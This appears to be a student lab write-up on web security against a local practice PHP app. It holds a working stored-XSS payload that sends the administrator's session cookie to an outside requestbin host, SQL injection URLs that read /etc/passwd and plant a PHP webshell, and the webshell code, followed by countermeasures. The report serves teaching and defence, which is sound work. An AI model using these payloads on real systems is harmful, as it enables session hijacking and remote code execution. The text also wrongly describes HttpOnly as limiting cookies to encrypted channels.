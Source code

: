 # Language-based Security

## Lab 3 - Web Application Security

### Part 1: Cross-Site Scripting (XSS)

The main XSS vulnerability that we found was in the "text" field of the comments section on the home page. Indeed, there was no filtering or encoding of any kind of HTML charaters or quotes.
This allowed us to inject some javascript code in the field to display a simple picture and, at the same time, steal the `PHPSESSID`cookie of the administator of the website checking the comments page.

#### Description of the attack

The command that we decided to insert in the "text" field to steal the administrator's cookie is:
```javascript
<script>var backup_url='http://media.istockphoto.com/photos/head-shot-of-cute-purebred-rottweiler-dog-pup-hanging-with-paws-over-picture-id1096889426';document.write('<img onerror="this.onerror=null;this.src=backup_url;" src="http://en8mgdzvtyrzg.x.pipedream.net/?'+document.cookie+'  "/>');</script>
```

When the administrator checks the comments page, the first source of the image will send his cookie (via the `document.cookie`) to our requestbin url where it can be easily retrieved.

![Requestbin used to hijack the administrator's cookie ](assets/pipedream.png)

The thing is, the victim will only see that someone uploaded a picture of a dog because a backup url is used in the `onerror` attribute of the `<img/>` tag to prevent showing a broken image which could be suspicious.

![Dog picture viewed by the administrator ](assets/dog-picture.PNG)

All we need then, to hijack the administator's session, is to replace the value of our `PHPSESSID`cookie, in the dev tools of the web browser, by the value set in the administrator's cookie.

![Session hijacking via manual modification of the PHPSESSID cookie ](assets/chrome-dev-tool.png)

Finally, we just need to reload the web page and we successfully hijacked the administrator's session. When we click on the "admin" link, we bypass the login/password step:

![Administrator page ](assets/admin-panel.png)

To prevent this attack from happening, we should sanitize user's inputs in the comments' text field. 
We can add escaping/encoding functions in the back-end source code to prevent special HTML characters usage. Some PHP functions are discussed in the countermeasures part.

#### Countermeasures

##### Client-side

Disable javascript code execution option in the web browser:
It is possible in modern web browsers to disable javascript code execution when visiting a web page. This would prevent cookie stealing attacks but some websites need javascript to work properly, so it can't be a solution on the long run.

##### Server-side

HttpOnly flag: 
One thing that could be done to prevent cookie stealing is to set the HttpOnly flag on the cookies sent by the server so that they can only be communicated over secure channels (SSL/TLS encryption) and become unreadable with javascript code.
The thing is, we also need to switch to an HTTPS communication protocol between the server and the client if we want the cookies to be sent.


Use escaping/encoding functions:
Another thing that could be done is to encode HTML entites in the user's inputs like `>` to `&gt;`, `<` to `&lt;` and quotes like `'` and `"` respectively to `&#x27;` and `&quot;`.
In PHP for exemple, we can use functions like `htmlentities()` or `htmlspecialchars()` to escape all special charaters that could be used to inject code in the input fields.

### Part 2: SQL Injection

#### Known Vulnerabilities

First of all, we tried to find vulnerabilities in the admin form, for example by escaping password verification, but this method was not very successful. Then, we found that the URL was not sanitized, meaning that some commands can be executed through the path. In this lab, we need to perfom SQL injections, meaning that we will execute SQL queries inside the URL.

#### Exploiting File Privilege

Using SQL injection, we can for example input a command that reads the `/etc/passwd` file and displays its content into the update form, as seen in the image below:

![Display passwd file in a form](assets/passwd-file.png)

In order to perform this action, we used the url `http://localhost/admin/edit.php?id=0%20union%20select%201,2,load_file("/etc/passwd"),4`, that executes the query directly on the server with the mysql user's rights, which has more privileges than the default www-data user.
Thus, it is possible to display sensitive files' content. For example, in this case, the file containing informations about users registered on the system. Before we would also have found passwords in this file, but modern UNIX systems now use the `/etc/shadow` file to save password hashes. 


#### Create a Webshell

Then, another vulnerability that could harm the system would be to execute unauthorized code remotely, by putting this request as an url :

`http://localhost/admin/edit.php?id=0%20union%20select%201,2,%22%3C?php%20system($_GET[%27cmd%27]);%20?%3E%22,4%20into%20outfile%20%22/var/www/css/webshell.php%22`

By doing this, the mysql user will create in our `css` folder, which has write access for everyone, a php file to launch a shell on the server. We can see it on the image below :

![Webshell file located in css folder](assets/webshell-file.png)

Our file contains php code that will fetch the "cmd" parameter in our url, and run it through a shell:

```php
<?php
    system($_GET['cmd']);
?>

```

Now that we have our php file on the server, we can execute code remotely:

![Request whoami executed remotely](assets/whoami-req.png)

![Request uname executed remotely](assets/uname-req.png)

Note that the webshell file belongs to mysql, but when we run the command `whoami` through the web application, it seems that we are logged in as www-data user, which is the standard user that is often reserved for remote users on web apps in Apache. It has few rights on the system but if we modify a little bit our previous URL that writes a php file, we could, for example, activate the SUID flag on the file. By setting our real user ID as the effective user ID, we could send commands using mysql user, which has advanced rights on the system. 

#### Countermeasures

##### Web Application

- Parameterised queries : MySQL supports parameterised queries, meaning that instead of injecting values directly in the command, it uses inputs as parameters. Those are then formatted with only acceptable values into the SQL statement.
- Remove error messages : not the case in this app, but on some web servers, if an error occurs, it is sometimes thrown back to the client's browser. This could allow a potential attacker to use this information disclosure (like tables structure for example) to break the system.
    
##### Database System

- Use the principle of least privilege : every web application on a server should have its own database account. Running an application using privileged users (as root, or mysql user) can be very harmful in this type of attack. Anything an administrator can do, can also be done by an attacker. We have a case here by being able to read the passwd file.
- An even more secure countermeasure would be, for each database account, to authorize only writing and reading the database but forbid harmful actions like dropping tables.
- Use stored procedures : extra layer of abstraction on your application where you can specify every action that are allowed on each table by creating prepared functions. You use them instead of querying directly your database. Any request which is not part of a procedure would be rejected because, in a standard usage, you would not need to do this action.

##### Operating System

- Change permissions on the server: In web servers, it is mostly recommended that directories' permissions should be 755 and 644 for the files. Permissions 777 are not recommended because they give too many rights. When we created the webshell, we used the writing rights that were allowed in the css folder. Those rights don't have a purpose during normal execution so, by removing this permission, we would ensure that users can't write in this folder.




### Sources

1. [Sécurisez vos cookies (instructions Secure et HttpOnly)](https://blog.dareboost.com/fr/2016/12/securisez-cookies-instructions-secure-httponly/)
2. [SQL Injection Attacks and Some Tips on How to Prevent Them](https://www.codeproject.com/Articles/9378/SQL-Injection-Attacks-and-Some-Tips-on-How-to-Prev)
